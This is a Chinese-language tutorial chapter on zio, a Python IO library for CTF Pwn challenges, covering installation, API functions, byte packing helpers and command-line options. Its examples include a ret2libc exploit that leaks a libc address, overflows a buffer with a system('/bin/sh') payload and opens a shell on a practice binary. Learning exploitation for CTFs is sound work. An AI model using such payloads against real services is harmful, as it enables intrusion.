 # 2.4.2 zio

- [zio 简介](#zio-简介)
- [安装](#安装)
- [使用方法](#使用方法)
- [zio 在 CTF 中的应用](#zio-在-ctf-中的应用)


## zio 简介
[zio](https://github.com/zTrix/zio) 是一个易用的 Python io 库，在 Pwn 题目中被广泛使用，zio 的主要目标是在 stdin/stdout 和 TCP socket io 之间提供统一的接口，所以当你在本地完成 利用开发后，使用 zio 可以很方便地将目标切换到远程服务器。

zio 的哲学：
```python
from zio import *

if you_are_debugging_local_server_binary:
    io = zio('./buggy-server')          # used for local pwning development
elif you_are_pwning_remote_server:
    io = zio(('1.2.3.4', 1337))         # used to exploit remote service

io.write(your_awesome_ropchain_or_shellcode)
# hey, we got an interactive shell!
io.interact()
```

官方示例：
```python
from zio import *
io = zio('./buggy-server')
# io = zio((pwn.server, 1337))

for i in xrange(1337):
    io.writeline('add ' + str(i))
    io.read_until('>>')

io.write("add TFpdp1gL4Qu4aVCHUF6AY5Gs7WKCoTYzPv49QSa\ninfo " + "A" * 49 + "\nshow\n")
io.read_until('A' * 49)
libc_base = l32(io.read(4)) - 0x1a9960
libc_system = libc_base + 0x3ea70
libc_binsh = libc_base + 0x15fcbf
payload = 'A' * 64 + l32(libc_system) + 'JJJJ' + l32(libc_binsh)
io.write('info ' + payload + "\nshow\nexit\n")
io.read_until(">>")
# We've got a shell;-)
io.interact()
```

需要注意的的是，zio 正在逐步被开发更活跃，功能更完善的 pwntools 取代，但如果你使用的是 32 位 Linux 系统，zio 可能是你唯一的选择。而且在线下赛中，内网环境通常都没有 pwntools 环境，但 zio 是单个文件，上传到内网机器上就可以直接使用。


## 安装
zio 仅支持 Linux 和 OSX，并基于 python 2.6, 2.7。
```
$ sudo pip2 install zio
```
`termcolor` 库是可选的，用于给输出上色：`$ sudo pip2 install termcolor`。


## 使用方法
由于没有文档，我们通过读源码来学习吧，不到两千行，很轻量，这也意味着你可以根据自己的需求很容易地进行修改。

总共导出了这些关键字：
```python
__all__ = ['stdout', 'log', 'l8', 'b8', 'l16', 'b16', 'l32', 'b32', 'l64', 'b64', 'zio', 'EOF', 'TIMEOUT', 'SOCKET', 'PROCESS', 'REPR', 'EVAL', 'HEX', 'UNHEX', 'BIN', 'UNBIN', 'RAW', 'NONE', 'COLORED', 'PIPE', 'TTY', 'TTY_RAW', 'cmdline']
```

zio 对象的初始化定义：
```python
def __init__(self, target, stdin = PIPE, stdout = TTY_RAW, print_read = RAW, print_write = RAW, timeout = 8, cwd = None, env = None, sighup = signal.SIG_DFL, write_delay = 0.05, ignorecase = False, debug = None):
```
通常可以这样：
```python
io = zio(target, timeout=10000, print_read=COLORED(RAW,'red'), print_write=COLORED(RAW,'green'))
```

内部函数很多，下面是常用的：
```python
def print_write(self, value):
def print_read(self, value):

def writeline(self, s = ''):
def write(self, s):
 
def read(self, size = None, timeout = -1):
def readlines(self, sizehint = -1):
def read_until(self, pattern_list, timeout = -1, searchwindowsize = None):
 
def gdb_hint(self, breakpoints = None, relative = None, extras = None):

def interact(self, escape_character=chr(29), input_filter = None, output_filter = None, raw_rw = True):
```
zio 里的 `read` 和 `write` 对应到 pwntools 里就是 `recv` 和 `send`。

另外是对字符的拆包解包，是对 struct 库的封装：
```python
>>> l32(0xdeedbeaf)
'\xaf\xbe\xed\xde'
>>> l32('\xaf\xbe\xed\xde')
3740122799
>>> hex(l32('\xaf\xbe\xed\xde'))
'0xdeedbeaf'

>>> hex(b64('ABCDEFGH'))
'0x4142434445464748'
>>> b64(0x4142434445464748)
'ABCDEFGH'
```
`l` 和 `b` 就是指小端序和大端序。这些函数可以对应 pwntools 里的 `p32()`，`p64()`等。

当然你也可以直接在命令行下使用它：
```
$ zio -h

usage:

    $ zio [options] cmdline | host port

options:

    -h, --help              help page, you are reading this now!
    -i, --stdin             tty|pipe, specify tty or pipe stdin, default to tty
    -o, --stdout            tty|pipe, specify tty or pipe stdout, default to tty
    -t, --timeout           integer seconds, specify timeout
    -r, --read              how to print out content read from child process, may be RAW(True), NONE(False), REPR, HEX
    -w, --write             how to print out content written to child process, may be RAW(True), NONE(False), REPR, HEX
    -a, --ahead             message to feed into stdin before interact
    -b, --before            don't do anything before reading those input
    -d, --decode            when in interact mode, this option can be used to specify decode function REPR/HEX to input raw hex bytes
    -l, --delay             write delay, time to wait before write
```


## zio 在 CTF 中的应用
何不把使用 pwntools 的写的 exp 换成 zio 试试呢xD。
